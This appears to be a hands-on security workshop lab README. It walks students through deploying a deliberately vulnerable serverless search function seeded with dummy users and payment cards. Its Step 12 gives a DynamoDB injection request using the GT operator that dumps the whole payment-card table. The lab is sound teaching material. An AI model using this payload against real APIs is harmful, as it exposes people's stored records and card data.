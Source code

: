 # DynamoDB Injection

This attack/payload has been documented [here](https://medium.com/appsecengineer/dynamodb-injection-1db99c2454ac) article.

On reading, you'll see that its a NoSQL Injection attack that's predicated on using the `gt` operator. One of the main reasons that this attack is made possible, is because of badly configured IAM privileges

**Note:** If you have not setup your aws cli follow [AWS-CLI-Configuration](aws-configure/README.md) under the `Setup` section*


* Step 1: In your image, navigate over to `/root/labs/Serverless-Workshop/`

```commandline
cd /root/labs/Serverless-Workshop/
```

* Step 2: Run `pip3 install pipenv`

```commandline
pip3 install pipenv
```

* Step 3: `pipenv shell`

```commandline
pipenv shell
``` 

```commandline
pipenv install boto3
``` 

```commandline
pipenv install faker
``` 

```commandline
pipenv install huepy
``` 


* Step 4: In your image, navigate over to `/root/labs/Serverless-Workshop/DynamoDB-Injection/ops`

```commandline
cd /root/labs/Serverless-Workshop/DynamoDB-Injection/ops
```

* Step 5: Create dummy users `python create_dummies.py users we45-sls-users`

```commandline
python create_dummies.py users we45-sls-users
```

* Step 6: Create dummy payment cards `python create_dummies.py cards we45-sls-payments`

```commandline
python create_dummies.py cards we45-sls-payments
```

* Step 7: In your image, navigate over to `/root/labs/Serverless-Workshop/DynamoDB-Injection`

```commandline
cd /root/labs/Serverless-Workshop/DynamoDB-Injection
```

* Step 8: Run `sls plugin install -n serverless-python-requirements`

```commandline
sls plugin install -n serverless-python-requirements
```

* Wait for instructor to explain the contents of the lab

* Step 9: Let's look at the contents of the `serverless.yml` [here](https://github.com/we45/Serverless-Workshop/blob/master/DynamoDB-Injection/serverless.yml)

* Step 10: Deploy the function with the command `sls deploy`

```commandline
sls deploy
```

* Wait for the function to deploy completely 

* Step 11: Let's now run a genuine search against the database with this command

```commandline

http POST https://xxxx.execute-api.us-east-1.amazonaws.com/api/search db=we45-sls-users search_term=Mark search_operator=EQ search_field=first_name

```

* Step 12: Now let's run the exploit

```commandline

http POST https://xxxx.execute-api.us-east-1.amazonaws.com/api/search db=we45-sls-payments search_term="*" search_operator=GT search_field=payment-card

```

### Teardown

* Step 13: In your image, navigate over to `/root/labs/Serverless-Workshop/DynamoDB-Injection`

```commandline
cd /root/labs/Serverless-Workshop/DynamoDB-Injection
```

* Step 14: Run `sls remove` to remove stack

```commandline
sls remove --force
```

* Step 15: In your image, navigate over to `/root/labs/Serverless-Workshop/`

```commandline
cd /root/labs/Serverless-Workshop/
```

* Step 16: Deactivate `pipenv` using `deactivate` command

```commandline
deactivate
```

```commandline
exit
```
